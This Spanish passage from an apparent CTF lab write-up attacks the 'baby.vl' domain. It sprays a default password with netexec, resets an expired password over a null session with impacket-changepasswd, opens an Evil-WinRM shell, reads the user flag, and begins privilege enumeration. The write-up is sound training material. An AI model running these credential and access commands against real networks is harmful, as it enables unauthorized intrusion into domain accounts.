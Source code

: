 ```bash
netexec smb BABYDC.baby.vl -u users.txt -p 'BabyStart123!' --continue-on-success
```

Resultado:

```
[+] baby.vl\Caroline.Robinson:BabyStart123! (Pwn3d!)
```

Sin embargo, cuando intentamos conectarnos con Evil-WinRM obtenemos un error que indica que **la contraseña debe ser cambiada**.

### Cambio de Contraseña

Utilizamos `impacket-changepasswd` para cambiar la contraseña de Caroline.Robinson:

```bash
impacket-changepasswd baby.vl/Caroline.Robinson:'BabyStart123!'@BABYDC.baby.vl -newpass 'Password123!'
```

Salida:

```
[*] Changing the password of baby.vl\Caroline.Robinson
[*] Connecting to DCE/RPC as baby.vl\Caroline.Robinson
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
[*] Password was changed successfully.
```

### Shell como Caroline.Robinson

Con la nueva contraseña, nos conectamos mediante Evil-WinRM:

```bash
evil-winrm -i 10.129.129.146 -u Caroline.Robinson -p Password123!
```

Una vez dentro, encontramos la flag de usuario:

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\desktop> type user.txt
[FLAG_AQUÍ]
```

---

## Escalada de Privilegios

### Enumeración de Privilegios

Verificamos los privilegios de nuestro usuario:

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\desktop> whoami /all
```
